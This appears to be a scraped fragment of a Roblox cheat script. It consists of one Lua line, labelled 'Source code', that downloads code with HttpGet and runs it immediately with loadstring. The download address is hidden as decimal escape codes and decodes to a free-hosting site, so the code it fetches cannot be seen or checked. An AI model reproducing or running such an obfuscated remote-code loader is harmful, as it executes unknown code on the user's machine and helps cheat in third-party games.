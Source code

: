 loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\98\108\111\120\102\114\117\105\116\119\104\105\116\101\108\105\115\116\46\48\48\48\119\101\98\104\111\115\116\97\112\112\46\99\111\109\47\84\111\119\101\114\111\102\77\105\115\101\114\121"))()
